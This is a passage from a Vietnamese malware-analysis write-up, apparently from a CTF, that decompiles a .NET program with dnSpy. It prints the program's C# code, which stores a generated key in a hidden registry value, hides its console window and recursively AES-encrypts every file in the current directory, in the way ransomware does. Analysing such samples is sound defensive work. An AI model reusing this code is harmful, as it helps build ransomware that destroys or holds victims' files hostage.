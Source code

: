 Mớ kia thìa mình đã phân tích rồi, bây giờ mình sẽ phân tích ``aliasStore``.

Tập tin này là file thực thi ``.Net``

![](https://hackmd.io/_uploads/BJXKbxYhh.png)

Mình dùng ``dnspy`` để decompile.

Nhìn sơ qua thì chương trình này thực hiện mã hoá tệp tin bằng AES.

![](https://hackmd.io/_uploads/H14WQeKnn.png)

Mình sẽ phân tích hàm ``main`` trước. Đầu tiên thì nó sẽ gen key với độ dài là ``2048``. Sau đó nó tạo subkey như bên dưới và set value cho ``INFO`` là key vừa tạo. Và dựa vào những gì ta phân tích bên trên thì cái key này nó đã bị ẩn nên là không thể truy cập bằng cách thông thường.

```csharp 
private static void Main(string[] args)
{
    string text = DISK_ENCODER.__KEYGEN(2048);
    DISK_ENCODER.GET_REGKEY = Registry.CurrentUser.CreateSubKey("Software\\Wow6432Node\\Microsoft\\Active Setup\\Status");
    DISK_ENCODER.GET_REGKEY.SetValue("INFO", text);
    DISK_ENCODER.GET_REGKEY.Close();
    try
    {
        DISK_ENCODER.ShowWindow(DISK_ENCODER.GetConsoleWindow(), 0);
        DISK_ENCODER.__INIT(Directory.GetCurrentDirectory().ToString(), text);
        Environment.Exit(0);
    }
    catch
    {
        Process.GetCurrentProcess().Kill();
    }
}
```

Tuy nhiên thì mình có PCHunter hehe

![](https://hackmd.io/_uploads/BykQSeF33.png)

Hàm ``INIT`` sẽ thực hiện đệ quy mã hoá các tập tin có trong directory được chỉ định, ở đây là directory hiện tại.

```csharp 
private static void __INIT(string GET_DIRECTORY, string GET_CIPHER_KEY)
{
    try
    {
        GC.Collect();
        foreach (string text in Directory.GetFiles(GET_DIRECTORY))
        {
            try
            {
                DISK_ENCODER.__ENCRYPTION(text, GET_CIPHER_KEY);
            }
            catch
            {
                Thread.Sleep(100);
            }
        }
        foreach (string text2 in Directory.GetDirectories(GET_DIRECTORY))
        {
            try
            {
                DISK_ENCODER.__INIT(text2, GET_CIPHER_KEY);
            }
```